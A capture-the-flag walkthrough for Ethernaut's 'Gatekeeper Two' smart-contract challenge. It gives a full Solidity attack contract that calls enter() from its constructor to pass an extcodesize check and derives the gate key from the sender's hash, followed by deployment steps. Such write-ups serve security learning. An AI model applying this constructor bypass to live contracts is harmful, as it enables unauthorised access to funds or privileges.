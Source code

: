 # Level 14: Gatekeeper Two

## Challenge Overview

This challenge builds on the concepts of access control and precise gas requirements.  
The goal is to bypass three conditions and call the `enter` function of the `GatekeeperTwo` contract.

## Goal

Solve the three gate conditions in the `GatekeeperTwo` contract to successfully call the `enter` function.

## Solution

The `GatekeeperTwo` contract enforces three checks—each must be satisfied in order to become the new entrant.



## Gate Conditions

### 1. Gate One

```solidity
require(msg.sender != tx.origin);
```

`enter()` must be called by a contract, not directly by your EOA.

### 2. Gate Two

```solidity
assembly { size := extcodesize(caller()) }
require(size == 0);
```

At the moment of the call, the caller’s code size must be zero.  
**Trick:** Calls made inside a constructor see `extcodesize(this) == 0`.

### 3. Gate Three

```solidity
require(
  uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) 
  ^ uint64(_gateKey) 
  == type(uint64).max
);
```

Let `H = bytes8(keccak256(abi.encodePacked(msg.sender)))`  
Then `_gateKey` must equal the **bitwise complement** of `H`, i.e.:

```solidity
_gateKey = H ^ 0xFFFFFFFFFFFFFFFF
```

---

## Attack the Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttack {
    constructor(address _target) public {
        // 1) Compute H = first 8 bytes of keccak(this)
        bytes8 H = bytes8(keccak256(abi.encodePacked(address(this))));

        // 2) Compute key = bitwise NOT of H
        bytes8 key = H ^ bytes8(type(uint64).max);

        // 3) Invoke enter() in the constructor:
        //    - msg.sender != tx.origin      [Gate One]
        //    - extcodesize(this) == 0       [Gate Two]
        //    - H ^ key == all 1’s           [Gate Three]
        IGatekeeperTwo(_target).enter(key);
    }
}
```



## Deployment & Verification

1. **Compile** `GatekeeperTwoAttack.sol` with Solidity `^0.6.0`.

2. In **Remix → Deploy & Run Transactions**:
   - **Environment** → Injected Web3 (MetaMask on same network as Ethernaut).
   - **Value** → leave at `0`.
   - **Contract** → select `GatekeeperTwoAttack`.
   - **Constructor Argument** → paste your `GatekeeperTwo` instance’s address (`contract.address` from Ethernaut).

3. **Click Deploy** and confirm the MetaMask transaction.

4. Back in the **Ethernaut** console, run:

```javascript
(await contract.entrant()) === player  // should be true
```

5. **Click Submit** on the level page to clear Gatekeeper Two.



## Lessons Learned

- Invoking your exploit during deployment (while your contract’s code isn’t on-chain yet) lets you satisfy the `extcodesize == 0` requirement that would block you afterward. Use the constructor to bypass code-size checks.
- If a key is just the inverse or derivative of `keccak256(msg.sender)`, anyone who knows your contract’s address can recompute it. Don’t trust hash-based gates as secrets.
- Before you attack, walk through each modifier in order, duplicate its logic in your exploit so you pass every gate.
